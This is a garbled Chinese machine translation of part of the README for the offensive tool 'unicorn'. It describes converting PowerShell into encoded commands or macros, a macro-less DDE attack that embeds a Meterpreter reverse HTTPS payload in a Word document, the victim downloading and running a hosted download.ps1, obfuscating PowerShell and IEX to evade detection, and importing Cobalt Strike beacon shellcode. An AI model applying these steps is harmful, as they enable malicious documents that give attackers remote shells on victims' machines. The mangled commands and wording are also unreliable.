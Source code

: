 这种攻击方法允许您将任何 PowerShell 文件(. ps1)转换为编码的命令或宏。

**注意:**如果选择宏选项，大型 ps1 文件可能会超过 VBA 允许的回车数量。您可以通过传递一个整数作为参数来更改每个 VBA 字符串中的字符数。

示例:

**python unicorn.py 无害. ps1 python unicorn.py myfile.ps1 宏 python unicorn.py muahahaha.ps1 宏 500**

最后一个将使用 500 个字符的字符串，而不是默认的 380 个，从而减少 VBA 中的回车。

## **DDE Office COM 攻击指令**

该攻击媒介将生成 DDEAUTO 公式，并放入 Word 或 Excel 中。COM 对象 DDEInitilize 和 DDEExecute 允许在 Office 中直接创建公式，这使得能够在不需要宏的情况下远程执行代码。该攻击已被记录，完整说明可在以下网址找到:

[https://sense post . com/blog/2017/macro-less-code-exec-in-ms word/](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

为了使用这种攻击，运行以下示例:

**python unicorn . py DDE python unicorn . py windows/meter preter/reverse _ https 192 . 168 . 5 . 5 443 DDE**

一旦生成， **powershell_attack.txt** 将被生成，其中包含 Office 代码和 **unicorn.rc** 文件，该文件是监听器组件，可由 msfconsole -r unicorn.rc 调用以处理有效负载的监听器。此外，还将导出一个 download.ps1(在后面的部分中解释)。

为了应用有效载荷，例如:

*   **开字**
*   **插入标签- >快速零件- >字段**
*   **选择=(公式)，点击确定。**
*   插入字段后，您应该会看到“！公式"意外结束
*   **右键单击字段，选择【切换字段代码】**
*   **粘贴来自 Unicorn 的代码**
*   **保存 Word 文档。**

打开 office 文档后，您应该会通过 PowerShell injection 收到一个 shell。注意，DDE 对字符大小有限制，我们需要使用调用表达式(IEX)作为下载方法。

DDE 攻击将尝试下载 download.ps1，这是我们的 PowerShell 注入攻击，因为我们受限于大小限制。您需要将 download.ps1 移动到受害机器可以访问的位置。这意味着您需要将 download.ps1 托管在它可以访问的 Apache2 目录中。

你可能会注意到一些命令使用了" **{引用**"，这些是屏蔽特定命令的方式，在这里[有记录](http://staaldraad.github.io/2017/10/23/msword-field-codes/)。

在这种情况下，我们正在更改 **WindowsPowerShell** 、【powershell.exe】和 **IEX** 以避免被检测到。此外，查看 URL，因为它有一些根本不调用 DDE 的好方法。

## **进口钴击信标**

该方法将直接从钴击导入钴击信标外壳代码。在 Cobalt Strike 中，导出 Cobalt Strike“CS”(c#)导出并将其保存到文件中。比如调用文件， **cobalt_strike_file.cs** 。

导出代码如下所示:

*   **长度:836 字节*/ byte[] buf =新字节[836] { 0xfc 等**

接下来，关于用法:

*   **python unicorn . py cobalt _ strike _ file . cs cs**
